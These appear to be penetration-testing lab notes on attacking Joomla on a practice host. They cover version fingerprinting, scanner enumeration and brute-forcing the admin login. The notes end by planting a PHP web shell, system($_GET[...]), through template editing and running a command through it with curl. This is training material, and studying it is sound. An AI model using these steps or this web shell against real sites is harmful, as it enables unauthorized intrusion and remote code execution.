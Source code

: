 
# Discovery/Footprinting
    
`$ curl -s http://dev.inlanefreight.local/ | grep Joomla`

We can fingerprint the Joomla version if the README.txt file is present.

`$ curl -s http://dev.inlanefreight.local/README.txt | head -n 5`

In certain Joomla installs, we may be able to fingerprint the version from JavaScript files in the **media/system/js/** directory or by browsing to **administrator/manifests/files/joomla.xml** .

`$ curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -`

The cache.xml file can help to give us the approximate version. It is located at `plugins/system/cache/cache.xml`


        
# Enumeration


    
Let's try out droopescan, a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.

```

$ sudo pip3 install droopescan
$ droopescan scan joomla --url http://dev.inlanefreight.local/
```

We can also try out JoomlaScan, which is a Python tool inspired by the now-defunct OWASP joomscan tool. JoomlaScan is a bit out-of-date and requires Python2.7 to run. We can get it running by first making sure some dependencies are installed.

```
$ sudo python2.7 -m pip install urllib3
$ sudo python2.7 -m pip install certifi
$ sudo python2.7 -m pip install bs4
$ python2.7 joomlascan.py -u http://dev.inlanefreight.local

```


# User enumeration

The administrator login portal is located at `http://dev.inlanefreight.local/administrator/index.php`. Attempts at user enumeration return a generic error message.

The default administrator account on Joomla installs is admin, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use this script to attempt to brute force the login.

[joomla-bruteforce](  https://github.com/ajnik/joomla-bruteforce   )

`$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin`



# Abusing Built-In Functionality

    
we would like to add a snippet of PHP code to gain RCE. 

We can do this by customizing a template.

From here, we can click on Templates on the bottom left under Configuration to pull up the templates menu.

Next, we can click on a template name.  

This will bring us to the Templates: Customise page.

Finally, we can click on a page to pull up the page source. 

`system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);`

`$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id`



         

    
